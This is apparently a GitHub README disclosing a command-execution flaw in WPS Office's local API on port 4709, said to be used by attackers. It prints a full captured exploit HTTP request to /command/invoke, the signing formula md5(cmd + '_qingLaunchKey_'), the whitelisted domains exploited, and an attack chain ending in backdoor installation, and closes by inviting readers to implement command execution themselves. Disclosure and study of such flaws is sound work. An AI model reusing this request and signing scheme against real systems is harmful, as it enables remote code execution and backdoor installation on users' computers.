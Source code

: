 # Chinese-hackers-use-WPS-to-attack
We caught a batch of malicious attacks from Chinese hackers!We caught a batch of malicious attacks from Chinese hackers
# China-office-software-wps-web-command-execution
When the wps software is running, an api interface with port 4709 will be opened. An attacker can request this interface to execute commands.

# What is Wps?
WPS Office is a widely used office suite with a user base of over 200 million, developed by Chinese company Kingsoft.

# What is Wps wpscloudsvr Api?
As we said, wps(wpscloudsvr.exe)will listen to port 127.0.0.1:4709 when it starts, but it cannot be accessed by normal access. You need to use a domain name to access, such as: http://localhost.wbridge.wps.cn:4709

![Listen](https://github.com/George-boop-svg/Chinese-hackers-use-WPS-to-attack/blob/main/Listen%204709.png)

If you run wps and find that port 4709 is listened to, you can directly access the URL.

![Web](https://github.com/George-boop-svg/Chinese-hackers-use-WPS-to-attack/blob/main/web%20api.png)

# How to use api to execute commands?

Some time ago we captured a web request from an attacker as follows:
```
POST /command/invoke HTTP/1.1
Host: localhost.wbridge.wps.cn:4709
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 732
Origin: https://docs.wps.cn
Referer: https://docs.wps.cn/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-site
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua: "Google Chrome";v="114", "Chromium";v="114", "Not=A?Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Te: trailers
Connection: close

app_id=kdocs&cmd=ksoqing%3A%2F%2Ftype%3Dksolaunch%26cmd%3DcGx1Z2luOi8vcGFnZUNsb3VkRG9jcz91cmw9aHR0cHM6Ly9haXJzaGVldC1jb21tdW5pdHkud3BzLmNuLw%3d%3d%26token%3D7b542dc31594d4f443dfc073fcb8abd3&ks_local_token=2BwJYEBTwY2ueCNrylNVQhMGt8QMNR3A&nonce_str=AbQ5fb66Q23E2yG3dbSM2TQ8M4HmD7i8&t=1695719826922&sign=C16B6005259121B111BF72787186D057FF191D04D2374F47E064F7A541B3601A
```
After the above request package is executed, the api interface of wps will be triggered and a wps official website will be opened. The attacker's malicious payload will be stored in the website. After loading, the backdoor will be downloaded to the specified directory and run.

## Simple analysis
Let’s do a simple analysis here.
Through reverse analysis, we found that cmd is the base64-encoded WPS official website domain name, because WPS restricts only some whitelisted domain names to be opened with the built-in browser, and those not in the whitelist can be opened with the user's default browser.whitelisted domain like:*.wps.cn  *.wps.com  *.wpscdn.cn  *.kdocs.cn  ....

### About Sign Token
```
md5(cmd + '_qingLaunchKey_')
```

# How hackers exploited the vulnerability?
We found that Chinese hackers are using this method to attack!
```
        (attack)
hacker >>>>>>>>>> web site(Install Js Payload Backdoor)
        (access)                           (run js payload)
user   >>>>>>>>>> web site(Hacker attack)   >>>>>>>>>>  attack wps (if you start wps and 4709 open)    >>>>>>>>>>  install backdoor
```

# End
If you want to implement command execution, you can go to https://www.wps.cn to download the software for testing.
